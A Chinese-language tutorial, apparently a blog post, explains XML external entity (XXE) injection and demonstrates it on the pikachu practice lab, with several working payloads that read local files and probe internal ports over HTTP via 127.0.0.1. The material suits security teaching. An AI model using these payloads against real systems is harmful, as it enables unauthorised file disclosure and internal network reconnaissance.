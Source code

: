 XXE漏洞全称XML External（外部的） Entity（实体） Injection（注入），即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。  
简而言之就是 外部实体，也就是我们DTD部分中的变量在加载（引用）外部的内容，从而发起了网络请求（本地请求）  
漏洞原理：把用户输入的数据当成xml外部实体代码进行执行，利用xml的外部实体去访问内网，访问本机，访问本机的文件。

##### pikachu靶场案例演示

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623140419424-261133495.png)  
如图所示，我们先来读取一下D盘上的1.txt文件

##### 读取代码如下

    <?xml version = "1.0"?>
    <!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "file:///d://1.txt">
    ]>
    <x>&xxe;</x>
    

复制代码，输入  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623142108291-1743431044.png)  
我们可以看到他将D盘的1.txt文件读取出来了,那么是否可以进行跨盘读取呢？我们在c盘新建一个文件夹xml,里面放入我们的1.txt文件，读取一下

##### 代码如下

    <?xml version = "1.0"?>
    <!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "file:///c://xml/1.txt">
    ]>
    <x>&xxe;</x>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623142737221-1631852449.png)  
我们可以看出，照样是可以读取出来的，如果是读取其c盘的敏感文件呢，如本地hosts文件等等。  
由此我们可以想到，如果将file换成http协议，那么是否可以实现他的一个内网探针，访问其内网数据呢

##### 访问代码如下：

    <?xml version="1.0" encoding="UTF-8"?>        
    <!DOCTYPE foo [ 
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1:80/index.php" >
    ]>
    <x>&xxe;</x>
    

![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623151617212-1018895697.png)  
如图所示，是可以访问到index.php中的内容的，有人可能在想，那如果index.php文件中的代码是phpinfo()，他是否会执行解析呢？  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623151915168-985859157.png)  
答案是不会解析，那么我如果去探测他的端口开放情况呢？比如，我看一下8081端口是否开放

##### 访问代码如下：

    <?xml version="1.0" encoding="UTF-8"?>        
    <!DOCTYPE foo [ 
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1:8081/index.php" >
    ]>
    <x>&xxe;</x>
    